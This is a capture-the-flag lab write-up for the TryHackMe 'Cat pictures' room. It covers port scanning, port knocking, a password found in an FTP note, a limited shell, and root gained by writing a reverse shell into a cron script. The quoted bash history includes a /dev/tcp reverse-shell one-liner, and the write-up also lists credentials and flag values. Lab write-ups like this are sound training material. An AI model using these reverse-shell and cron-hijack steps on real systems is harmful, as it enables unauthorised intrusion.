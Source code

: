 ```yaml
---
title: Test Writeup - Cat pictures
date: 2021-06-14 19:44:00 +05:30
modified: 2021-06-15 19:44:00 +05:30
tags: [writeups]
description: Writeup for THM - Cat pictures
---
```


---
### Enumeration

#### NMAP scan

```bash
PORT     STATE    SERVICE    REASON              VERSION
21/tcp   filtered ftp        port-unreach ttl 63
22/tcp   open     ssh        syn-ack ttl 63      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
8080/tcp filtered http-proxy no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


-------

### Foothold 

- site on port 8080 :
<figure>
<img src="./Pasted%20image%2020210605101307.png" alt="pic">
</figure>
- link : http://10.10.23.106:8080/viewtopic.php?f=2&t=2
<figure>
<img src="./Pasted%20image%2020210605101424.png" alt="pic">
</figure>
- a hint for port knocking(?)
- lets try it out : https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html
- after port knocking twice got access to FTP
```bash
knock $IP 1111 2222 3333 4444
```
- got a `note.txt`:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```
- and connecting to it via nc on `4420` with the gn passwd we have a limited shell
<figure>
<img src="__posts/../../../_site/test-writeup/Pasted%20image%2020210605102030.png" alt="pic">
</figure>
- since `cd` was not available got a reverse shell working
- `strings` was not there so used `cat`:

```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
- using the passwd : `rebecca`
- and it works!!

----

### Privesc

- `.bash_history`:

```bash
root@7546fa2336d6:/# cat .bash_history 
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh 
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
exit
exit
```
- so its probably a cron job
- put a simple bash rev shell in that as we are root and we can write to it
- got a rev shell... ROOTED!!! 

-----

### Creds

1. sardinethecat -> internal shell
2. rebecca : runme script

-----

### Flags

1. User flag => `7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9`
2. Root flag => `4a98e43d78bab283938a06f38d2ca3a3c53f0476`

----